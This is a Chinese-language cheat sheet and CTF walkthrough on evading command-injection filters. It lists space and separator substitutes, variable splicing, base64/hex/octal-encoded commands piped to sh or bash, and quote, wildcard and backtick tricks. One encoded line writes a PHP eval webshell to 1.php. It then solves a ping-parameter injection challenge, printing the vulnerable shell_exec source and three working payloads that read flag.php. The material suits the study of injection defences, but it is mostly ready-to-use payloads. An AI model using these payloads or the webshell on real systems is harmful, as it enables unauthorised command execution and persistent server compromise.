 # 命令执行绕过

## 一些特殊字符绕过

### 空格绕过

如果过滤了空格，可以使用以下字符串代替：
```
<、<>、%20(space)、%09(tab)、$IFS$9、${IFS}、$IFS等
```

### 命令分隔符绕过

linux中：%0a、%0d、；、&、|、&&、||

windows中：%0a、&、|、%1a

## 一些关键字绕过

### 拼接绕过

通过创建变量，然后将变量拼接绕过

#### 实例

执行ls命令，可以构造命令：
```
a=l;b=s;$a$b
```

cat flag文件内容
```
a=c;b=at;d=lag;$a$b f$d
```

cat test文件内容
```
a='cccaaattt';$b=${a:0:1}${a:2:1}${a:4:1};$b test
```
### 编码绕过

base64编码
```
echo Y2F0IC9mbGFn|base64 -d|sh  ==>cat /flag
```

hex编码
```
echo "0x636174202f666c6167" | xxd -r -p|bash ==>cat /flag
```

oct/字节
```
$(print "\154\163") ==>ls

$(print "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag

{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"} | $0 ==>cat /flag
```

通过oct/字节编码
```
内容为php @eval($_POST['c'];?>

${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"}>> 1.php
```
### 单引号、双引号和反斜杠绕过

单引号绕过
```
c'a't test
```

双引号绕过
```
c"a"t test
```

反斜杠绕过
```
ca\t test
```
### 通配符绕过

[...]表示匹配括号中的任意一个字符
{.....}表示匹配括号里的所有模式，模式之间用,隔开
[...]和{...}的区别在于，如果[..]匹配没有文件，则会变成字符串，而{...}不会

构造实例
```
cat t?st

cat te*

cat t[a-z]st

cat t{a,b,c,d,e}st
```


### 内联执行

内联执行就是将反引号里的输出当做是输入执行

实例
```
cat `ls`
```

## 字母和数字都被过滤，则有：1.异或；2.取反
具体请看：https://blog.csdn.net/weixin_39877898/article/details/112198269



## 实例
通过打开页面，我们可以看见?ip=，因此我们可以构造payload:
```
?ip=127.0.0.1;ls
```

我们可以看见有两个文件，分别是flag.php和index.php，因此我们可以构造payload
```
?ip=127.0.0.1;cat /flag.php
```
发现有过滤，通过尝试，发现空格字符和flag关键字被过滤，因此我们可以先查看源码，用$IFS$9来对空格过滤进行绕过
```
?ip=127.0.0.1;cat$IFS$9index.php
```

看到源码，然后分析源码
```
/?ip=

PING 127.0.0.1 (127.0.0.1): 56 data bytes
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "

";
  print_r($a);
}

?>
```

有三种方法

第一种方法：
通过拼接法，构造payload:
```
?id=127.0.0.1;b=ag;cat$IFS$9fl$b.php
```


第二种方法
通过base64编码，构造payload
```
?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
```

第三种方法
通过内联执行，构造payload
```
?ip=127.0.0.1;cat$IFS$9`ls`
```


命令执行的具体可以看：https://www.cnblogs.com/Tkitn/p/11661017.html